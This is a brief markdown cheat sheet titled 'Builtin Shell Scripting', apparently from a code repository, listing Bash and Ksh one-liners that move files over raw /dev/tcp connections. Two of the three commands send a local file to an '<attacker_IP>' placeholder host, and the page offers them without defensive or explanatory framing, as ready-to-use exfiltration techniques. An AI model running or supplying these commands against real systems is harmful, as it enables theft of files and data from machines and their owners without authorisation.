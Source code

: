 # Builtin Shell Scripting

## 01 - Bash

Send files.

```
$ cat file.txt > /dev/tcp/<attacker_IP>/<attacker_PORT>
```

Receive files.

```
$ cat < /dev/tcp/<IP>/<PORT> > file.txt
```

## 02 - Ksh

```
$ ksh -c 'cat /path/to/file.txt > /dev/tcp/<attacker_IP>/<PORT>'
```
